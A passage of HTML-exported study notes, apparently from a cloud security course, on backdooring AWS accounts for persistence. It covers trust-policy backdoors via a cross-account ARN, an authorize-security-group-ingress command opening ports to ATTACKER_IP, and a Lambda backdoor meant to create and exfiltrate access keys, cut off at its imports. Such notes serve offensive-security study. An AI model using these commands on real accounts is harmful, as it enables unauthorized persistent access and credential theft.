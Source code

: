                           &quot;lex.amazonaws.com&quot;
                      ]
                  }
              }
          ]
      }
  }
}</code></pre></li></ul><ul id="b5548c29-1719-48cd-bb99-2f9ef5d3a0dd" class="bulleted-list"><li style="list-style-type:disc">all AWS service roles contain path <code>/aws-service-role/</code><ul id="9f369d2b-1bde-43aa-9cd5-e95842868228" class="bulleted-list"><li style="list-style-type:circle">no other roles allowed to use this path</li></ul></li></ul>
<h3 id="f622b0de-95e4-4414-a679-d0dab4652846" class="">IAM Trust Policy</h3><p id="bbe01b0c-3a3f-418c-8b17-f13bedfe1c8d" class="">The following trust policy allows the EC2 service to assume a role </p><pre id="8507a320-e241-4b0e-b4c4-c06524f59f55" class="code"><code>{
	&quot;Version&quot;: &quot;2012-10-17&quot;,
	&quot;Statement&quot;: [
		{
			&quot;Effect&quot;: &quot;Allow&quot;,
			&quot;Principal&quot;: {
				&quot;Service&quot;: &quot;ec2.amazonaws.com&quot;
			},
			&quot;Action&quot;: &quot;sts:AssumeRole&quot;
		}
	]
}</code></pre><ul id="6ec57bb1-fbd7-4f66-9b7f-daaee82b3b9d" class="bulleted-list"><li style="list-style-type:disc">useful for when IAM role added to EC2 instance profile, and then the instance profile is attached to an EC2 instance<ul id="2b5a9b6e-3ce6-485d-aa5e-d73cc39aede1" class="bulleted-list"><li style="list-style-type:circle">allows for temp creds to be used by EC2 instance to perform role actions</li></ul></li></ul>
<h3 id="8a359df3-ca92-4c43-8dff-97a07e716cd4" class="">Adding Backdoor to Trust Policy</h3><ul id="0c38976a-c3ea-4e4f-a03c-cdf90856d489" class="bulleted-list"><li style="list-style-type:disc">do not overwrite trust policy!<ul id="65e2ec26-ca77-4f40-b0b8-c5ae72993e70" class="bulleted-list"><li style="list-style-type:circle">update the policy with your ARN</li></ul><p id="244ecd67-b5f6-47d4-bebc-5e027f978a66" class=""><code>aws iam update-assume-role-policy --role-name &lt;ROLE_NAME&gt; --policy-document </code><code><a href="file://trust-policy-backdoor.json">file://trust-policy-backdoor.json</a></code><code> --profile &lt;PROFILE&gt;</code><div class="indented"><ul id="a8a6197e-20aa-4001-a09a-f736a1ea32f8" class="bulleted-list"><li style="list-style-type:disc">note that the <code>policy-backdoor.json</code> will contain the cross-account ARN </li></ul></div></p></li></ul>
<h2 id="72231594-f1de-48a3-968b-a23e35d5dd1b" class="">Backdooring EC2 Security Groups</h2><ul id="1ad12519-6562-41e7-b8c1-ca8fe57a90c2" class="bulleted-list"><li style="list-style-type:disc"><code>IpPermissions</code> contains inbound traffic rules</li></ul><ul id="9bb7cf0c-4d1e-4b41-a40a-c8a2695e12b1" class="bulleted-list"><li style="list-style-type:disc"><code>IpPermissionsEgress</code> contains outbound traffic rules</li></ul><ul id="14d6c6a7-82ed-4bcb-8746-fb79b57caf46" class="bulleted-list"><li style="list-style-type:disc">to backdoor, you can allow inbound traffic from your IP address<ul id="b8e7c409-ad8d-4616-a085-cc87170d1cf4" class="bulleted-list"><li style="list-style-type:circle"><code>aws ec2 authorize-security-group-ingress --group-id sg-0315cp741b51fr4d0 --
protocol tcp --port &lt;PORTS&gt; --cidr &lt;ATTACKER_IP&gt;</code></li></ul></li></ul>
<h2 id="824eae1d-356e-4300-9382-3c99a4c922d1" class="">Backdooring Lambda Function</h2><ul id="796d785f-7ced-4442-8a34-d5154147ef52" class="bulleted-list"><li style="list-style-type:disc">trigger Lambda function upon a certain event<ul id="f534cf45-12c5-464d-a87e-d47ea5b86673" class="bulleted-list"><li style="list-style-type:circle">works only if CloudTrail logging is enabled (because the Lambda function backdoor will be configured to trigger upon an event) </li></ul><ul id="ed7165a7-516a-4817-b78e-d5c61d5f70b6" class="bulleted-list"><li style="list-style-type:circle">can create backdoor such as creating a second access key pair for a new user, then exfiltrating the key pair</li></ul><pre id="1a2c4077-3253-4c59-8af8-f6739c066636" class="code"><code>import boto3
from botocore.vendored import requests
